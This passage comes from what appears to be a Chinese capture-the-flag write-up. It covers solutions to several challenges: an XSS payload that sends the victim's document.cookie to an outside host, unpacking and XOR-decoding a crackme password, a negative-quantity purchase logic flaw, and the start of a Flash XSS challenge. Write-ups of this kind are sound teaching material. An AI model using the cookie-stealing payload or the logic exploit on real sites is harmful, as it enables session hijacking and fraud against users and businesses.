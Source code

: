 ```
var i = new Image();
i.src = "http://ricter.me:9999/?" + document.cookie;

```

得到 flag。

0x03 密码宝宝
=========

* * *

密码宝宝 一题逆向题，用了 upx 加壳。

用010editor打开后，可以看到加了upx壳，用upx –d脱壳

![enter image description here](http://drops.javaweb.org/uploads/images/c48e89dd2838f50861ea88e55803ea0a2a11d932.jpg)

在ida中查找GetWIndowTextA调用的地方

![enter image description here](http://drops.javaweb.org/uploads/images/32de1d92d06430764861119b31c18fd15cca222c.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/9d9cdaefd54aabfaa393287d11e10c58c9aee23a.jpg)

Sub_405160这个函数就是进行判断的函数

![enter image description here](http://drops.javaweb.org/uploads/images/ad7e7717de06650047070a887002d68c1e6cbc26.jpg)

可以看到逻辑比较简单，就是将”himemnl”的每一位与0x4c,0x5a,0x4b各异或一次，就可以得到密码“5408031”

0x04 简单业务逻辑
===========

* * *

简单业务逻辑 一题逻辑漏洞题～

注册账号，其中 Username 为`Admin`。

![enter image description here](http://drops.javaweb.org/uploads/images/141f8c8280352d4d64fa252a1a31516e97613cae.jpg)

登录后买 -111 个草泥马：

![enter image description here](http://drops.javaweb.org/uploads/images/0659e9378bfbb22c6a02e870cb30f3f230129e0c.jpg)

得到好多钱，然后买最贵的那个。

0x05 前端初赛题2
===========

* * *

前端初赛题2 简单来说就是给你一个 flash 让你弹弹弹

直接反编译得到 as 代码，首先可以知道 ExternalInterface.call 肯定是利用电，但是发现它会 delete 掉那些方法。找资料发现

```
http://drops.wooyun.org/papers/948

```
